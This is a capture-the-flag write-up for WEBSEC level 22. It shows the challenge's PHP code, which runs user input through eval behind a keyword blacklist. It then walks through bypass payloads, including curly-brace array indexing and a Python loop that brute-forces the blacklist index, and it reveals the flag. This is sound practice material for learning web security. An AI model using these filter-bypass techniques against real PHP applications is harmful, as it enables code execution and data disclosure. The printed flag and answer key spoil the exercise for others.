 # WEBSEC Level 22


### Challenge description

This is level to reflect on.

### Initial analysis
` <?php
class A {
    public $pub;
    protected $pro ;
    private $pri;

    function __construct($pub, $pro, $pri) {
        $this->pub = $pub;
        $this->pro = $pro;
        $this->pri = $pri;
    }
}

include 'file_containing_the_flag_parts.php';
$a = new A($f1, $f2, $f3)               //object created
...
$blacklist = array_merge($funcs_internal, $funcs_extra, $funny_chars, $variables);  //array with the potential 
//function to dumb object $a
...
if ($insecure) {
    echo 'Insecure code detected!';
} else {
    eval ("echo $code;");
}
?>`

### Walk through
STEP 1: Call the $blacklist array with {} since [] is blocked. Payload: $blacklist{1} 
OUTPUT: func_get_arg

STEP 2: Give the function of the i'th index of $blacklist array as $a Payload: $blacklist{1}($a) 
OUTPUT: func_get_arg($a)

STEP 3: Find the index in $blacklist array which is var_dump

from requests import * import sys url = 'http://websec.fr/level22/index.php' i = 0 while True: params = {'code': '$blacklist{{{0}}}'.format(i)} r = get(url, params=params) if r.text.find('var_dump') > -1: print str(i) sys.exit(0) else: i=i+1

OUTPUT: 579

STEP 4: $blacklist{579}($a) 
OUTPUT: object(A)#1 (3) { ["pub"]=> string(17) "WEBSEC{But_I_was_" ["pro":protected]=> string(18) "told_that_OOP_was_" ["pri":"A":private]=> string(22) "flawless_and_stuff_:<}" }

### Flag

**FLAG**: `WEBSEC{But_I_was_told_that_OOP_was_flawless_and_stuff_:<}`

For further queries, please DM me on Twitter: <https://twitter.com/m0n574>.
